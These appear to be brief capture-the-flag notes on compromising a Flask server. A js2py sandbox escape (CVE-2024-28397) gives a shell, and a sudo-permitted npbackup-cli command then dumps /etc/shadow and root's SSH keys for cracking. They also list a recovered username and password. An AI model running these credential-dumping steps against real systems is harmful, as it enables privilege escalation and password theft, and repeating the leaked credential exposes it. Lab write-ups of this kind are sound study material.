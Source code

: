 ___


# User

Port 8000 running gunicorn

*libraries*
flask=3.0.3
flask-sqlalchemy=3.1.1
js2py=0.74

*evals  code*
result = js2py.eval_js(code)


*this is the CVE*
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py

got shell

*dumped db*
marco:sweetangelbabylove


# Root

*this runs backup*
sudo /usr/local/bin/npbackup-cli --config npbackup.conf --backup


*dumped /etc/shadow*
sudo /usr/local/bin/npbackup-cli --config-file npbackup.conf --dump /etc/shadow


unshadow passwd_file.txt shadow_file.txt > unhadow.file


dumped /root/.ssh pass wasn't cracking

































